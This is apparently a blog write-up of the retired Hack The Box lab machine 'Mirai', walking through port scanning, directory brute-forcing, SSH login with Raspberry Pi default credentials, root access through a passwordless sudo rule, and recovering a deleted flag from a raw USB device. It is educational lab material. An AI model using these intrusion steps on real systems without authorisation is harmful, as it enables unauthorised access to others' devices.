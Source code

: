 ```yaml
---
layout: post
title:  "Write-up - Hack the Box - Mirai "
date:   2021-02-22 13:27:11 +0100
categories: Infosec
mathjax: false
---
```


This is how I approached the retired box 'Mirai' from [Hack the box](https://www.hackthebox.eu/).

The box IP I'll be using throughout the article is *10.129.101.222*.

Scanning - NMap
---------------

The first step I usually take is to do a [TCP SYN](https://nmap.org/book/synscan.html) scan of the box.

```bash
$ sudo nmap -sS 10.129.101.222

Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-22 15:18 EST
Nmap scan report for 10.129.101.222
Host is up (0.020s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.65 seconds
```

With the `-sV` option of NMap, I then retrieved the name and version of the services running on the open ports:


```bash
$ sudo nmap -sS -sV 10.129.101.222 -p 22,80,53

Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-18 02:19 EST
Nmap scan report for 10.129.99.109
Host is up (0.017s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
53/tcp open  domain  dnsmasq 2.76
80/tcp open  http    lighttpd 1.4.35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.35 seconds
```

Webserver
---------

The NMap scan showed that there is a webserver running on port 80. Navigating to http://10.129.101.222 with the browser shows a blank page. 

I then ran Gobuster to see if there are any interesting directories. 

```bash
$ gobuster dir --url http://10.129.101.222 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.129.101.222
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/02/18 02:24:05 Starting gobuster
===============================================================
/admin (Status: 301)
/versions (Status: 200)
===============================================================
2021/02/18 02:30:50 Finished
===============================================================
```

Navigating to http://10.129.101.222/admin reveals a [Pi-hole](https://pi-hole.net/) admin console. 

The most commonly used OS for raspberry Pi is Raspberry Pi OS. This operating system comes with a default user with credentials "pi/raspberry". Since the NMap scan showed that port 22 is open, I tried to ssh using the default credentials.

```bash
$ ssh pi@10.129.99.109

The authenticity of host '10.129.101.222 (10.129.101.222)' can't be established.
ECDSA key fingerprint is SHA256:UkDz3Z1kWt2O5g2GRlullQ3UY/cVIx/oXtiqLPXiXMY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.101.222' (ECDSA) to the list of known hosts.
pi@10.129.101.222's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $
```

Now that we managed to log in, we can read the user flag in `/home/pi/user.txt`.

Sudoers
-------

Since we have credentials for the user, we could be able to use `sudo`. To determine whether we are allowed to sudo, we can use the list `-l` option. 


```bash
pi@raspberrypi:~ $ sudo -l

Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

The [sudoers syntax](https://toroid.org/sudoers-syntax) is quite complex, but let's dissect the output of this `sudo -l`.

1. `(ALL : ALL)`: this is the 'run as' clause. It specifies the target user and the target group (i.e., which users could be used when running `sudo -u` or which groups when running `sudo -g`). If this clause is not present, the user will only be able to run commands as root. If only a username is specified  (for example `(xi)`) or only a group (for example `(:xi-group)`), then one could only use `sudo -u xi` or `sudo -g xi-group` respectively. Here we have `(ALL : ALL)`, which means any user and any group can be used.

2. `(ALL : ALL) ALL`: The last `ALL` refers to which commands can be run as the users specified by the 'run as' clause. So, if we had `(xi : xi-group) /usr/bin/ls`, we would only be able to run as user `xi` or as group `xi-group` the command `/usr/bin/ls`. In this case, `ALL` means all commands.

3. Between the 'run as' clause and the 'commands' clause, there are additional options. In the last line we have `NOPASSWD:`. This means that we can run any command as any user, *without entering a password*!!

When there are more specifications for a single user, the last one is used. Therefore, we can run any command as any user without password. 

```bash
pi@raspberrypi:~ $ sudo su root

root@raspberrypi:/home/pi#
```

Getting the root flag
---------------------

The root flag should be located in `/root/root.txt`...

```bash
root@raspberrypi:/home/pi# cat /root/root.txt 

I lost my original root.txt! I think I may have a backup on my USB stick...
```

Oh no! Quick! Let's find any USB stick plugged into the Raspberry Pi.

```bash
root@raspberrypi:/home/pi# lsblk

NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   10G  0 disk 
├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
└─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
sdb      8:16   0   10M  0 disk /media/usbstick
sr0     11:0    1 1024M  0 rom  
loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfs
```

`/media/usbstick` is promising. Inside it we see:

```bash
root@raspberrypi:/home/pi# ls /media/usbstick/

damnit.txt  lost+found
```

Uh oh, the name of the file is all but promising. And indeed...

```bash
root@raspberrypi:/home/pi# cat /media/usbstick/damnit.txt

Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

When deleting a file from a storage device, only the reference to where the file is located in memory is deleted. The content of the deleted files should still be on the USB stick, unless it has been overwritten with new data.

When one writes to an external device, the operating system does not communicate directly to drivers (more information can be found [here](http://www.linux-databook.info/?page_id=5108)). It  passes data to a device file, which then passes it on to the driver, which in turns writes it to the physical device. Device files are thus a sort of portal to the drivers. Through the device file, we can access the raw content of the USB stick. 

In the same way as we look for strings in an executable, we can use the `strings` command to retrieve all sequences (in this case I filter out those shorter than 10 characters) of ascii characters present on the device.

```bash
root@raspberrypi:/home/pi# strings -n 10 /dev/sdb 

/media/usbstick
lost+found
damnit.txt
/media/usbstick
lost+found
damnit.txt
/media/usbstick
lost+found
damnit.txt
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
```

Just before the content of the `damnit.txt` file that we had found earlier, we see a hash. This is the root flag!
